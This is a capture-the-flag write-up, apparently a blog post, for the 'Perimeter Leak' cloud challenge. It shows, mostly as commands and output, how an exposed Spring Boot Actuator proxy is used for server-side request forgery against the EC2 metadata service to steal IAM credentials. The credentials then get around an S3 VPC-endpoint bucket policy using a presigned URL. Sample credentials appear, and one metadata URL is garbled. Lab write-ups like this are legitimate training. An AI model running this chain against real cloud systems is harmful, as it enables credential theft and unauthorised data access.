 ```yaml
---
title: "Perimeter Leak"
date: 2025-07-30
draft: false
description: "Solutions for the first challenge from WIZ utltimate cloud champion"
tags: ["ctf", "cloud", "aws"]
---
```


Our first challenge starts with a brief introduction..

```bash
You've discovered a Spring Boot Actuator application running on AWS: curl https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com
{"status":"UP"}
user@monthly-challenge:~$ 
```

Ok! so we are dealing with a Spring Boot Actuator application, but wait, what is even that? The official docs from baeldung states that Actuator brings production-ready features to our application. Monitoring apps, gathering metrics, etc...
It comes with Predefined Endpoints, you can find more inforamtion 👉 [here](https://www.baeldung.com/spring-boot-actuators).

The most interesting Endpoint is `/actuator/env`, CURLing it returnes some valuable data! such as the S3 bucket name! and some other info about the ec2 instance ;)

```bash
user@monthly-challenge:~$ curl -s https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/actuator/env | jq | grep -i bucket -A2 -B2
          "origin": "System Environment Property \"SHELL\""
        },
        "BUCKET": {
          "value": "challenge01-470XXXX",
          "origin": "System Environment Property \"BUCKET\""
        },
        "LOGNAME": {
```

Another interesting Endpoint is the `/actuator/mappings`, which provides information about the application's request mappings and lists all the Endpoints within the applicatiopn.

What attracts me the most is this endpoint, which is a proxy that takes `url` as param!

```json
{
              "predicate": "{ [/proxy], params [url]}",
              "handler": "challenge.Application#proxy(String)",
              "details": {
                "handlerMethod": {
                  "className": "challenge.Application",
                  "name": "proxy",
                  "descriptor": "(Ljava/lang/String;)Ljava/lang/String;"
                },
                "requestMappingConditions": {
                  "consumes": [],
                  "headers": [],
                  "methods": [],
                  "params": [
                    {
                      "name": "url",
                      "negated": false
                    }
                  ],
                  "patterns": [
                    "/proxy"
                  ],
                  "produces": []
                }
              }
            },
```

The first thing that came straight to my mind after knowing that the application is running in EC2 instance, is trying to send a GET request to the 169-254 metadata server! and yup, it did work! but we are unauthorized!

No problem, lets kindly request a temporary token from the metadata server!

```bash
TOKEN=$(curl -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" -XPUT https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/api/token)

user@monthly-challenge:~$ curl -H "X-aws-ec2-metadata-token: ${TOKEN}" https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/   
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hibernation/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
system
```

Okay, thass cool! lets go ahead and grab the iam security creds and see what we can do next!

```json
user@monthly-challenge:~$ curl -H "X-aws-ec2-metadata-token: $TOKEN" https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.meta-data/iam/security-credentials/challenge01-5592368

{
  "Code" : "Success",
  "LastUpdated" : "2025-09-06T12:38:55Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIARK7LBOHXNJ5AIPXX",
  "SecretAccessKey" : "EODTCiWkez2OTMwg3U0q+s1xc4HgB9YYpIS3XiqJ",
  "Token" : "IQ....",
  "Expiration" : "2025-09-06T18:59:09Z"
```

After configuring the aws creds, we can now see whats inside the bucket!

```bash
user@monthly-challenge:~$ aws s3 ls s3://challenge01-470fXXX --recursive
2025-06-18 17:15:24         29 hello.txt
2025-06-16 22:01:49         51 private/flag.txt
```

For a moment, I though I got the flag! but it didn't end here...
I tried to copy the content of flag.txt object locally but I got a frobbiden err msg!

```bash
user@monthly-challenge:~$ aws s3 cp s3://challenge01-XXX/private/flag.txt --profile p1 flag
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```

Why? this is because of the S3 policy, which says that you cannot get any object under /private/* out of the S3 bucket, unless the request is coming from the vpc id `vpce-0dfd8b6aa1642a0570`!

```bash
user@monthly-challenge:~$ aws s3api get-bucket-policy --profile p1 --bucket challenge01-470fXXX | jq
{
  "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Deny\",\"Principal\":\"*\",\"Action\":\"s3:GetObject\",\"Resource\":\"arn:aws:s3:::challenge01-470fXXX/private/*\",\"Condition\":{\"StringNotEquals\":{\"aws:SourceVpce\":\"vpce-0dfd8b6aa1642a057\"}}}]}"
}
```

Remember the `/proxy` endpoint we discovered a while ago under `/actuator/mappings`? This will allow us to send a request from the application which is running in the EC2 instance that is provisionned on the same VPC.

Its actually very simple, we just have to presign an url for the S3 bucket, and send the request from the application using the /proxy endpoint! and just like that we get the flag of the first challenge :D

```bash
user@monthly-challenge:~$ URL=$(aws s3 presign s3://challenge01-470fXXXX/private/flag.txt --profile p1 | jq -sRr @uri)
user@monthly-challenge:~$ echo $URL
https%3A%2F%2Fchallenge01-470XXX.s3.amazonaws.com%2Fprivate%2Fflag.txt%3FX-Amz-Algorithm%3DAWS4..
user@monthly-challenge:~$ curl https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=${URL} 
The flag is: WIZ_CTF_***********
```